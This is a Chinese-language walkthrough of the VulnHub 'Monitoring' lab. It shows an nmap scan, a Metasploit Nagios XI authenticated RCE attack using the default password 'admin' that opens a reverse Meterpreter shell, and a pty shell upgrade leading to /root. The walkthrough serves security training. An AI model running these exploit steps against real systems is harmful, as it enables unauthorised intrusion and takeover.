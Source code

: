 # Monitoring

> https://download.vulnhub.com/monitoring/Monitoring.ova

靶场IP：`192.168.2.133`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.133                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-05 07:41 EDT
Nmap scan report for 192.168.2.133
Host is up (0.00062s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:43:DC:A3 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.68 seconds
                                                             
```

浏览器访问80端口

![image-20220905194312987](../../.gitbook/assets/image-20220905194312987-1675840035291905.png)

跟随链接访问管理后台

![image-20220905195246754](../../.gitbook/assets/image-20220905195246754-1675840035291906.png)

我们搜索 Nagios XI 的漏洞利用，我们发现了一个 authenticated_rce 漏洞利用。让我们加载 msfconsole 并加载漏洞 `nagios_xi_authenticated_rce`。

```
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set rhosts 192.168.2.133
rhosts => 192.168.2.133
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set lhost 192.168.2.129
lhost => 192.168.2.129
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.2.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3020772 bytes) to 192.168.2.133
[*] Meterpreter session 1 opened (192.168.2.129:4444 -> 192.168.2.133:40318) at 2022-09-05 07:54:37 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

```

```
shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
```

![image-20230208150721890](../../.gitbook/assets/image-20230208150721890.png)